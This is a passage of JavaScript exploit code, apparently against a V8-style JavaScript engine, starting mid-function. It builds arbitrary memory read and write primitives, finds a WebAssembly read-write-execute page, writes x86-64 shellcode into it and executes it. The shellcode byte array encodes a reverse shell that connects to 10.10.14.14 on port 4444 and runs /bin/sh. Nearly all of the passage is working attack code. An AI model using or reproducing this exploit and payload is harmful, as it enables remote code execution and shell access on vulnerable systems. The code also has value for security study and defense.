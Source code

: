 ```js
	float_arr.SetLastElement(itof(float_arr_map, 32));
	return fake;
}


var rw_helper = [itof(float_arr_map, 64), 1.1, 2.2, 3.3];
var rw_helper_addr = addrof(rw_helper) & 0xffffffffn;

console.log("[+] Controlled RW helper address: 0x" + rw_helper_addr.toString(16));

function arb_read(addr) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    return ftoi(fake[0], 64);
}

function arb_write(addr, value) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    fake[0] = itof(value, 64);
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,
                               130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,
                               128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,
                               128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,
                               0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,0,11]);
var wasm_module = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_module);
var pwn = wasm_instance.exports.main;

var wasm_instance_addr = addrof(wasm_instance) & 0xffffffffn;
var rwx = arb_read(wasm_instance_addr + 0x68n & 0xffffffffn);

console.log("[+] Wasm instance address: 0x" + wasm_instance_addr.toString(16));

console.log("[*] RWX INSTANCE:   0x" + rwx.toString(16));

var arr_buf = new ArrayBuffer(0x100);
var dataview = new DataView(arr_buf);

var arr_buf_addr = addrof(arr_buf) & 0xffffffffn;;
var back_store_addr = arb_read(arr_buf_addr + 0x14n);

console.log("[+] ArrayBuffer address: 0x" + arr_buf_addr.toString(16));
console.log("[+] Back store pointer: 0x" + back_store_addr.toString(16));

arb_write(arr_buf_addr + 0x14n, rwx);

var shellcode = [72, 49, 192, 72, 131, 192, 41, 72, 49, 255, 72, 137, 250, 72, 131, 199, 2, 72, 49, 246, 72, 131, 198, 1, 15, 5, 72, 137, 199, 72, 49, 192, 80, 72, 131, 192, 2, 199, 68, 36, 252, 10, 10, 14, 14, 102, 199, 68, 36, 250, 17, 92, 102, 137, 68, 36, 248, 72, 131, 236, 8, 72, 131, 192, 40, 72, 137, 230, 72, 49, 210, 72, 131, 194, 16, 15, 5, 72, 49, 192, 72, 137, 198, 72, 131, 192, 33, 15, 5, 72, 49, 192, 72, 131, 192, 33, 72, 49, 246, 72, 131, 198, 1, 15, 5, 72, 49, 192, 72, 131, 192, 33, 72, 49, 246, 72, 131, 198, 2, 15, 5, 72, 49, 192, 80, 72, 187, 47, 98, 105, 110, 47, 47, 115, 104, 83, 72, 137, 231, 80, 72, 137, 226, 87, 72, 137, 230, 72, 131, 192, 59, 15, 5];

for (let i = 0; i < shellcode.length; i++) {
  dataview.setUint8(i, shellcode[i], true);
}

console.log("[+] Spawning a shell...");
pwn();
```